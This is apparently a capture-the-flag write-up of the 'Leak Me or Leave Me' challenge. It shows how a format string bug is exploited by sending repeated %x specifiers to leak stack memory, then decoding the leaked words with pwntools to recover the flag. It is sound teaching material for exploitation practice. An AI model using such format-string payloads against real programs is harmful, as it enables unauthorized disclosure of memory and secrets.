 Leak Me or Leave Me Pwn Challenge - Break_In CTF

```
# ./leak                                                                   
flag file seems to be missing.contact administrator .
# echo 'FL4G{fake_flag_for_test}' > flag.txt
```

```
# ./leak 
LEAK ME OR LEAVE ME
> 
```
From the name of the challenge, we can assume that it is about Format String Vulnerability. We can exploit it to leak memory from the stack by providing the "%x" format specifier

```
# ./leak
LEAK ME OR LEAVE ME
> %x %x
80 f7f055c0
```

Okay it's working. So I analyzed the binary with radare2. Disassembly of the main function shows
```
<----------------------------------------------------SNIP----------------------------------------------------->
0x0804861e      8d8390e7ffff   lea eax, dword [ebx - 0x1870]
0x0804861d      50             push eax                    ; const char *mode
0x0804861e      8d8392e7ffff   lea eax, dword [ebx - 0x186e]
0x08048624      50             push eax                    ; const char *filename
0x08048625      e866feffff     call sym.imp.fopen          ; file*fopen(const char *filename, const char *mode)
<----------------------------------------------------SNIP----------------------------------------------------->
```
So i guess it opens the flag.txt file. So the file contents must be placed on the stack. Leaking multiple address might leak it's content

```
# python -c 'print "%x " * 50' | ./leak                                                                                                               
LEAK ME OR LEAVE ME         
> 80 f7f745c0 0 0 ffe85fcc 8cc2160 47344c46 6b61667b 6c665f65 665f6761 745f726f 7d747365 f63d000a f7fc1b0c ffe86064 80482e8 f7fa2936 804823c ffe8606c 
f7fc1ab0 1 f7f92410 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 2078
2520 25207825 78252078 20782520 25207825 78252078 
```
The last addresses are the hex of "%x " input we provided. I noticed the seventh address 47344c46 immediately and guess it is the "FL4G" text. I used python to confirm.

```python
Python 3.7.5 (default, Oct 27 2019, 15:43:29) 
[GCC 9.2.1 20191022] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *                                                                                                                                
>>> out = "47344c46 6b61667b 6c665f65 665f6761 745f726f 7d747365 f63d000a".split(" ")                                                                
>>> for o in out:
...     addr = p32(int('0x'+o, 16))
...     print(addr.decode(), end='')
... 
Traceback (most recent call last):
  File "<stdin>", line 3, in <module>
UnicodeDecodeError: 'utf-8' codec can't decode byte 0xf6 in position 3: invalid start byte
FL4G{fake_flag_for_test}>>>
```
Yes it is indeed our fake flag. So we can use the same technique against server to get the flag
